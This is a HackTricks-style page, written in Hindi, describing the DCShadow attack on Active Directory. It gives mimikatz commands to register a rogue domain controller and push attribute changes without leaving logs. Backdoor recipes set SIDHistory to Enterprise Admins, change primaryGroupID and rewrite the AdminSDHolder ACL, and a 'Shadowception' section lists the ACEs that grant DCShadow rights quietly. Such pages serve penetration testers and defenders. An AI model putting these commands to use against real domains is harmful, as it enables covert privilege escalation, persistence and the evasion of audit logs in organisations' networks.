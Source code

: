 {{#include ../../banners/hacktricks-training.md}}

# DCShadow

यह AD में एक **नया डोमेन कंट्रोलर** पंजीकृत करता है और निर्दिष्ट वस्तुओं पर **गुण** (SIDHistory, SPNs...) को **धकेलने** के लिए इसका उपयोग करता है **बिना** किसी **लॉग** के जो **संशोधनों** के बारे में हो। आपको **DA** विशेषाधिकार की आवश्यकता है और **रूट डोमेन** के अंदर होना चाहिए।\
ध्यान दें कि यदि आप गलत डेटा का उपयोग करते हैं, तो काफी खराब लॉग दिखाई देंगे।

हमला करने के लिए आपको 2 mimikatz उदाहरणों की आवश्यकता है। इनमें से एक RPC सर्वरों को SYSTEM विशेषाधिकार के साथ शुरू करेगा (आपको यहां उन परिवर्तनों को इंगित करना होगा जिन्हें आप करना चाहते हैं), और दूसरा उदाहरण मानों को धकेलने के लिए उपयोग किया जाएगा:
```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
ध्यान दें कि **`elevate::token`** `mimikatz1` सत्र में काम नहीं करेगा क्योंकि यह थ्रेड के विशेषाधिकारों को बढ़ाता है, लेकिन हमें **प्रक्रिया के विशेषाधिकार** को बढ़ाने की आवश्यकता है।\
आप "LDAP" ऑब्जेक्ट भी चुन सकते हैं: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

आप एक DA से या इस न्यूनतम अनुमतियों वाले उपयोगकर्ता से परिवर्तन कर सकते हैं:

- **डोमेन ऑब्जेक्ट** में:
- _DS-Install-Replica_ (डोमेन में प्रतिकृति जोड़ें/हटाएं)
- _DS-Replication-Manage-Topology_ (प्रतिलिपि टोपोलॉजी प्रबंधित करें)
- _DS-Replication-Synchronize_ (प्रतिलिपि समन्वयन)
- **कॉन्फ़िगरेशन कंटेनर** में **साइट्स ऑब्जेक्ट** (और इसके बच्चे):
- _CreateChild and DeleteChild_
- **कंप्यूटर का ऑब्जेक्ट जो DC के रूप में पंजीकृत है**:
- _WriteProperty_ (Not Write)
- **लक्ष्य ऑब्जेक्ट**:
- _WriteProperty_ (Not Write)

आप [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) का उपयोग करके इन विशेषाधिकारों को एक अप्रिविलेज्ड उपयोगकर्ता को दे सकते हैं (ध्यान दें कि इससे कुछ लॉग रह जाएंगे)। यह DA विशेषाधिकारों की तुलना में बहुत अधिक प्रतिबंधात्मक है।\
उदाहरण के लिए: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` इसका मतलब है कि उपयोगकर्ता नाम _**student1**_ जब मशीन _**mcorp-student1**_ में लॉग इन होता है, तो उसके पास ऑब्जेक्ट _**root1user**_ पर DCShadow अनुमतियाँ हैं।

## बैकडोर बनाने के लिए DCShadow का उपयोग करना
```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - DCShadow का उपयोग करके DCShadow अनुमतियाँ दें (संशोधित अनुमतियों के लॉग नहीं)

हमें अपने उपयोगकर्ता के SID के साथ निम्नलिखित ACEs को अंत में जोड़ने की आवश्यकता है:

- डोमेन ऑब्जेक्ट पर:
- `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
- `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- हमलावर कंप्यूटर ऑब्जेक्ट पर: `(A;;WP;;;UserSID)`
- लक्षित उपयोगकर्ता ऑब्जेक्ट पर: `(A;;WP;;;UserSID)`
- कॉन्फ़िगरेशन कंटेनर में साइट्स ऑब्जेक्ट पर: `(A;CI;CCDC;;;UserSID)`

किसी ऑब्जेक्ट का वर्तमान ACE प्राप्त करने के लिए: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

ध्यान दें कि इस मामले में आपको **कई परिवर्तन** करने की आवश्यकता है, केवल एक नहीं। इसलिए, **mimikatz1 सत्र** (RPC सर्वर) में उस प्रत्येक परिवर्तन के साथ **`/stack`** पैरामीटर का उपयोग करें जिसे आप करना चाहते हैं। इस तरह, आपको सभी अटके हुए परिवर्तनों को करने के लिए केवल एक बार **`/push`** करने की आवश्यकता होगी।

[**DCShadow के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{{#include ../../banners/hacktricks-training.md}}
